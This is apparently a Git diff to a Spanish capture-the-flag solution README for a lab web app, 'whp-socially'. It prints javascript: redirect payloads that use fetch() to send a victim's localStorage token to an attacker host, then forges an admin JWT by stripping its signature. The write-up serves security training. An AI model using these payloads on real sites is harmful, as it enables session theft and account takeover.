

Add files via upload

diff --git a/Solutions/README.es.md b/Solutions/README.es.md
@@ -5,6 +5,8 @@
 <details>
 <summary>Mostrar</summary>
 
+En esta etapa, el objetivo es acceder a la aplicación con un usuario cualquiera.
+
 Para empezar, accedemos a http://whp-socially/ y nos encontramos con la siguiente pantalla:
 
 ![](img/MainPage.png)
@@ -86,7 +88,7 @@ Ahora, vamos a ver cuál es la dirección IP de nuestra máquina de atacante. Pa
 Con esta información, podemos crear un payload que utilice la función "fetch()" para enviar el token al servidor de atacante mediante una petición GET. El enlace quedaría de la siguiente manera:
 
 ```
-http://whp-socially/?next=j%09avascript:fetch(%27http://172.18.0.1/%27%2blocalStorage.getItem(%27token%27))
+http://whp-socially/?next=j%09avascript:fetch(%27http://<IP_ATACANTE>/%27%2blocalStorage.getItem(%27token%27))
 ```
 
 **Importante:** Hay que reemplazar \<IP_ATACANTE\> por la dirección IP de la máquina de atacante. Además, hay que codificar el carácter "+" en URL, para que no se interprete como un espacio en blanco.
@@ -108,7 +110,7 @@ Para solucionar esto, podemos ver si el resto de comillas están siendo escapada
 En este caso, los backticks no están siendo escapados. Por lo tanto, podemos utilizarlos para solucionar el problema. El enlace quedaría de la siguiente manera:
 
 ```
-http://whp-socially/?next=j%09avascript:fetch(`http://172.18.0.1/`%2blocalStorage.getItem(`token`))
+http://whp-socially/?next=j%09avascript:fetch(`http://<IP_ATACANTE>/`%2blocalStorage.getItem(`token`))
 ```
 
 Si probamos el enlace, vemos que la petición llega al servidor de atacante.
@@ -119,15 +121,15 @@ Nos llega el valor "null", esto se debe a que no estamos autenticados, pero esto
 
 ![](img/exploitServer.png)
 
-Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que el token llega correctamente al servidor del atacante.
+Pulsamos el botón "Deliver URL to victim" para enviar el enlace a la víctima. El servidor de explotación simula la navegación de la víctima y vemos que un JSON Web Token (JWT) llega correctamente al servidor del atacante.
 
 ![](img/tokenReceived.png)
 
-Ahora, podemos utilizar el token para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:
+Ahora, podemos utilizar el JWT para autenticarnos en la aplicación de http://whp-socially/. Abrimos la consola del navegador y ejecutamos el siguiente código JavaScript:
 
     localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6NX0.<FIRMA>')
 
-**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del token que hemos obtenido.
+**Importante:** Para que la consola nos deje pegar el código anterior, hay que escribir "allow pasting" justo antes de ejecutar el código. Además, hay que reemplazar \<FIRMA\> por la firma del JWT que hemos obtenido.
 
 ![](img/localStoragesetItem.png)
 
@@ -141,5 +143,50 @@ Si recargamos la página, comprobamos que nos hemos autenticado correctamente co
 
 <details>
 <summary>Mostrar</summary>
+
+En esta etapa, vamos a ver cómo podemos acceder como administrador.
+
+Tras iniciar sesión, podemos ver que tenemos una funcionalidad para publicar posts, pero se encuentra deshabilitada. Por lo tanto, vamos a revisar el JWT en busca de vulnerabilidades.
+
+JWT se compone de tres partes: header, payload y firma. El header contiene información sobre el algoritmo de cifrado utilizado. El payload contiene la información que queremos guardar en el JWT. La firma se utiliza para verificar que el JWT no ha sido modificado, y se calcula mediante el header, el payload y una clave secreta.
+
+Gracias a la página [JWT.io](https://jwt.io/), podemos ver el contenido del JWT más fácilmente. Introducimos el JWT obtenido anteriormente y obtenemos la siguiente información:
+
+![](img/jwtdecoded.png)
+
+Tenemos un campo "id" con el valor "5", que seguramente corresponda al identificador del usuario. Para modificarlo, necesitamos conocer la clave secreta que se utiliza para firmar el JWT, a menos que podamos encontrar una vulnerabilidad.
+
+Si revisamos el HTTP History de Burp Suite al añadir un JWT en el Local Storage del navegador y refrescamos la página, se realiza una petición contra el endpoint "/session", que dado un JWT válido devuelve una cookie de sesión.
+
+![](img/jwtreturnssession.png)
+
+Vamos a probar a eliminar la firma del JWT y ver qué ocurre. Si se elimina la firma y la aplicación no la comprueba, el JWT se considera válido. Si esto ocurre, la aplicación debe devolver una cookie de sesión.
+
+![](img/signatureremoved.png)
+
+Esta vulnerabilidad permite manipular el payload del JWT, por lo que podemos modificar el valor de la clave "id" para que sea "1" y acceder como el primer usuario de la aplicación, que normalmente es el administrador.
+
+![](img/modifiedidjwt.png)
+
+Cerramos sesión y especificamos el JWT modificado desde la consola del navegador de la siguiente manera:
+
+    localStorage.setItem('token', 'eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzb2NpYWxseS1hcHAiLCJpZCI6MX0.')
+
+![](img/setadminjwt.png)
+
+Si recargamos la página, comprobamos que hemos accedido como administrador.
+
+![](img/loginasadmin.png)
+
+</details>
+
+## Etapa 3: Leer el archivo /flag
+
+<details>
+<summary>Mostrar</summary>
+
+En esta etapa, vamos a ver cómo podemos leer el archivo /flag.
+
+
 
 </details>
